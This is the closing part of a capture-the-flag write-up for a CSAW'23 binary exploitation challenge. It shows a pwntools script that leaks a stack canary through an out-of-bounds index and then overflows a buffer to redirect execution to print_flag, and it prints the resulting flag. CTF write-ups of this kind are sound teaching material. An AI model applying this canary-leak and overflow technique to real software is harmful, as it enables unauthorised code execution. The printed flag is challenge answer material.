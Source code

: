 ```python
            gdb.attach(r)
    else:
        # Connect to a remote server.
        r = remote("pwn.csaw.io", 7900)

    # Return the connection object.
    return r

# Define the main function.
def main():
    # Establish the connection.
    r = conn()
    
    # Initialize the stack canary. 
    stack_canary = b"\x00"
    
    # Leak the stack canary.
    for i in range(3):
        r.sendline("V")
        input = 129 + i
        # Send the input to leak the stack canary.
        r.readuntil("Index :") 
        r.sendline(str(input))
        
        r.readuntil(" : ") # Skip the first line.
        # Read the leaked stack canary bits
        stack_canary += bytes([int(r.readline(), 16)])

    # Print the stack canary.
    print(":) Stack canary: ", stack_canary) 

    # Configure the input for exploitation.
    r.sendline("E")
    r.recvuntil("Name Size : ")
    r.sendline(str(1337))

    r.recvuntil('Name : ')
    
    # Set the target address for exploitation.
    addr = exe.symbols['print_flag']
    
    # Construct the payload with stack canary. padding and target address.
    payload = b'A' * 64 + stack_canary + b'AAAA' + p32(addr)
    
    # Send the payload and enter interactive mode.
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()

```
![](https://i.imgur.com/psFp0Qa.png)

We get the flag: `csawctf{my_n4m3_15_079_4nd_1m_601n6_70_h0p_7h3_7urn571l3}`

## Conclusion

This was a really fun challenge and I had a good time this weekend playing CSAW'23. I hope you enjoyed reading this write up and learned something new, I definitely enjoyed writing it.

Thanks for reading!